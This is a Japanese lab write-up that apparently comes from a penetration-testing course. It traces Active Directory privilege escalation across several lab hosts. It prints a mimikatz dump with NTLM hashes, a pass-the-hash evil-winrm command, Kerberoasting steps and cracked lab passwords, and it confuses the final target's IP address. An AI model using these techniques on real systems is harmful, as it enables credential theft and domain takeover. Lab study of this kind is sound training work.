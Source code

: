 # 主題
ここでは、Active Directoryを低い権限から最終的にDomai Adminsの権限まで昇格する一連の流れを示す。Active Directoryを中心に話す。

流れとしては

**10.11.1.123** (ただのUsersグループ) -> **10.11.1.121** (サービスアカウント) -> **10.11.1.120** (Domain Admins)

の流れ。

# 10.11.1.123 (ただのUsersグループのメンバー)

（イニシャルシェルは、http://10.11.1.123/Books にアクセスして、My Business-Period(Bizuno Library 3.1.7)とわかる。エクスプロイトがある。**初めからすでにsystem権限の状態**）

mimikatzでハッシュを取り出しても、このマシン10.11.1.123のユーザxor-app59についてのハッシュしか出てこない。すなわちActive Directoryのドメイン中の他のユーザのハッシュはmimikatzでは出てこない
（そりゃそうか。Domain Adminsの人はACのトップであり、全ユーザを管理するから各ユーザのハッシュが出てくるのか。）

ちなみにmimikatzでは、このマシンxor-app59のAdministratorのハッシュが出た：

```
Authentication Id : 0 ; 337803 (00000000:0005278b)
Authentication Id : 0 ; 337803 (00000000:0005278b)
Session           : Interactive from 0
User Name         : Administrator
Domain            : XOR-APP59
Logon Server      : XOR-APP59
Logon Time        : 9/20/2021 2:39:23 AM
SID               : S-1-5-21-3051798232-4248191986-2095020414-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : XOR-APP59
         * NTLM     : 3fee04b01f59a1001a366a7681e95699
         * SHA1     : 3a8679fbfdfea03f2d3b5a1a1aa185cca912014b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : XOR-APP59
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : XOR-APP59
         * Password : (null)
```

だからxor-app59（10.11.1.123）には次のようにPass the Hashできる：

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -u Administrator -H 3fee04b01f59a1001a366a7681e95699  -i 10.11.1.123
```

ユーザグループだからか、サービスアカウントに対してSilver Ticket作ってサービスアカウントのシェルを起動させようとしたり、（AdministratorにOver pass the hashしようとしたり...<- いやいや、
このAdministratorって自分の、xor-app59のAdministratorのことだよ）したけど無理だった。

しかし、**Kerberoasができた！** （`Invoke-Kerberoast`でkrb5tgs型のハッシュをとって変換してhashcatでクラックするやつ）


# 10.11.1.121 (サービスアカウント）

xor-app23としてrdpじゃなくて、サービスアカウントSQLServer（PowerViewの`Get-NetUser`で表示）としてrdpでドメインをきちんと指定してアクセス：（10.11.1.121がxor-app23と分かったのは、
autoreconのnmapの結果）

```
┌──(kali㉿kali)-[~]
└─$ rdesktop -d xor.com -u SQLServer -p shantewhite 10.11.1.121
```

このSQLServerユーザでログインするとproof.txtが読める、すなわち10.11.1.121のadmin権限がある。（コマンドプロンプトを**Run as Administrator**として開ける）

**System権限にも関わらずmimikatzの`sekurlsa::logonpasswords`が効かない場合は、mimikatzの新しい方（mimikatz211.exe）を使え！** （<- 古いmimikatzにある問題だって。）


**daisyのrdpファイル発見。** mimikatzにより、daisyのパスワードが**XorPasswordIsDead17**と判明。


＜daisyについて＞

すでにsystem権限（IPアドレスは10.11.1.122)。

```
C:\Windows\system32>whoami
xor\daisy

C:\Windows\system32>ipconfig

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.11.1.122
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.11.0.1
```

ここまでで、10.11.1.123, 10.11.1.121, 10.11.1.122を攻略できた。ということは、残すはDomain Adminsの10.11.1.123だ！

mimikatzはここら辺にしておいて、PowerViewでActive Directoryの調査を進める。最終ゴールはDoamin Adminsに行き着くこと！！



